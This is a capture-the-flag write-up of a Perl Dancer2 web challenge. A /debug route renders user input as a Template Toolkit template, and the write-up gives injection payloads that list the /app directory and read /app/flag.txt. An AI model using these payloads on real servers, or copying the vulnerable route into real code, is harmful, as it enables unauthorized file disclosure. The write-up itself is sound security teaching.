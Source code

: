 ## Description
Google sẽ cho bạn tất cả đáp án ^_^. Flag nằm ở /app/flag.txt
## Hints 
none
## Solution
This is the website for the challenge:

![image](https://github.com/user-attachments/assets/d747b2cd-7bed-4705-97b6-fcc10d5c1147)

Here’s the source code of the website:

```
use strict;
use warnings;

use Dancer2;
use Template;


get '/' => sub {
    my $greeting = "Template_toolkit";
    template 'index' => {
        greeting => $greeting
    };
};

post '/debug' => sub {
    my $input = body_parameters->get('debug');
    my $output;
    
    my $template = Template->new({
        INCLUDE_PATH => './views'
    });
    $template->process(\$input, {}, \$output) or die $template->error();
    return $output;
};

start;
```
From the source code, we can see that the challenge uses a template engine called: [Template toolkit](https://template-toolkit.org/), and with the hint we could try to do something with the `/debug` page with POST method.

A quick Google search for `Template Toolkit debug` gave me some useful ways to exploit the website: https://template-toolkit.org/docs/manual/Config.html

I started with a simple payload to check if it would works: `debug=[% 'hello' %]`, and the page return the word hello.

That's interesting to know, now i could try a more complex payload to get the flag.

Here’s one possible solution:

`debug=`

`[% USE dir = Directory('/app') %]`: assigning the directories from the path `/app` to the variable `dir` 

`[% FOREACH file = dir.files %]`: loop through files in the directory specified by the `dir` variable

`[% file.name %]`: prints the name of the files

`[% END %]`: closes the FOREACH loop

When executed, this payload returns a list of files:

![image](https://github.com/user-attachments/assets/fba82678-24ff-4502-8cbe-5fbb240b85c7)

Now that we khow where the flag is, we just need to extract it.

I used the following payload:

`debug=`

`[% USE userlist = datafile('/app/flag.txt', delim = ' ') %]`: assigning the content of the file `/app/flag.txt` to `userlist`, using datafile plugin with the delimiter, in this case is the space character.

`[% FOREACH record = userlist %]`: creates a list of records, userlist contains the records from the flag.txt file.

`[% record.Here %]`: print the content of the records

`[% END %]`: closes the FOREACH loop

We got the flag eventually.

![Screenshot 2024-08-18 131638](https://github.com/user-attachments/assets/19738ba2-f36e-4915-a6bc-caddad1ae609)
















Xin cảm ơn đại ka `K1nz` mặc dù anh ko biết em là ai và em cũng ko biết anh là ai nhưng anh đã giúp em thoát khỏi cuộc sống đầy betak 5 tiếng đồng hồ.

References: https://bluecyber.hashnode.dev/justctf2024-writeup-web-challenges
